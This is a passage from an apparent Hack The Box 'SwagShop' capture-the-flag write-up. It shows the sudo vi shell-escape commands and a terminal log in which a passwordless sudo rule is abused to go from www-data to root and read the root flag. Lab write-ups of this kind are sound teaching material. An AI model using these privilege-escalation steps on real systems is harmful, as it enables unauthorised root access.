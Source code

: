 Thats VERY interesting here. We can run the above sudo command with no password prompt! This helps a lot since the `www-data` account does not have any permissions and any passwords we can exploit. We can also easily abuse `vi` to escalate privileges like so:

```bash
sudo vi
:shell
# or the following:
sudo vi
:set shell=/bin/bash:shell    
:!bash
```

Lets try our exploit:

```
www-data@swagshop:/var/www/html$ touch /var/www/html/bubba
touch /var/www/html/bubba
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/bubba
sudo /usr/bin/vi /var/www/html/bubba

E558: Terminal entry not found in terminfo
'unknown' not known. Available builtin terminals are:
    builtin_amiga
    builtin_beos-ansi
    builtin_ansi
    builtin_pcansi
    builtin_win32
    builtin_vt320
    builtin_vt52
    builtin_xterm
    builtin_iris-ansi
    builtin_debug
    builtin_dumb
defaulting to 'ansi'

^[:shell
~
~
:shell
root@swagshop:/var/www/html# cd ~
cd ~
root@swagshop:~# ls -la
ls -la
total 28
drwx------  3 root root 4096 Jul 14 14:44 .
drwxr-xr-x 23 root root 4096 May  2 14:55 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 May  2 14:50 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root  606 Jul 14 14:44 .viminfo
-rw-------  1 root root  270 May  8 09:01 root.txt
root@swagshop:~# cat root.txt
cat root.txt
c2b087d66e14a652a3b86a130ac56721

   ___ ___
 /| |/|\| |\
/_| ´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
root@swagshop:~#
```